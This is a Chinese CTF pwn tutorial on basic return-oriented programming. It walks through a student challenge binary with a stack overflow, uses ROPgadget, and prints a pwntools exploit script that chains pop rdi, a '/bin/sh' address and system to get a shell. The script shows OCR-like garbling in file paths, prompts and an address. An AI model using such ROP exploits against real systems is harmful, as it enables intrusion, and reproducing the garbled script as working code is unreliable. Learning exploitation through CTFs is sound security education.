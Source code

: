 CTF-pwn 技术总结（1）
===============

**初级Rop**
---------

返回导向编程（Return-Oriented Programming，缩写：ROP）是计算机安全中的一种漏洞利用技术，该技术允许攻击者在程序启用了安全保护技术（如堆栈不可执行—NX保护）的情况下控制程序执行流，执行恶意代码。

### 使用方法：

利用栈溢出控制程序中函数的返回地址，再借助 ROPgadget 寻找程序/libc 中带有ret的指令，利用这些指令构造一个指令序列，从而控制程序的执行。

### 例题演示：

来自某学校新生赛题： checkin，

ida打开发现需要输入三个变量满足一个简单的等式，没什么限制随意构造即可

![img](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-91db606fbc1d598e47423062acbc6c646e9b29e8.png)

进入vul函数，发现存在栈溢出，偏移为10h，等下就要在这里构造ROP链

![img](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ab2dc9fad2c689a896634db8297f5459163c488e.png)

还找到了后门函数，

![img](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-0c415edbc6399cacbaa34878d323b575163e8484.png)

利用ROPgadget工具寻找可用的指令：

![image-20211229111212035](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d44ecbd32cbc69add901034a68ab4c2b7bd670f3.png)

也可以用它查找字符串：

![image-20211229111352335](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-e7c650f09b649cb5287e194a69abcf1e2f9a198a.png)

#### 思路：

这样构造下面这样的ROP链就可以getshell了

```assembly
pop rdi; ret; binsh_addr; system_addr
```

#### Exp：

```python
from pwn import *
context.log_level = 'debug'
p = process( " . /checkin")
e = ELF( ".checkin")
puts_got = e.got["puts"]
pop_rdi = 0x400953
a = str(32)
b = str(0)
c = str(0)
sys_addr = 0x4007c6b
binsh_addr = 0x601060
off = 0x10 + 8
p.sendlineafter( "Give ne your a:", a)
p.sendlineafter( "Give me your b:", b)
p.sendlineafter( "cive me your c:", c)
#gdb.attach(p, "bp 0x4007FC")
payload = "a"* off + p64(pop_rdi)+ p64(binsh_addr) +p64(sys_addr)
payload = payload.ljust( 100 , "a")
p.send(payload)
p.interactive()
```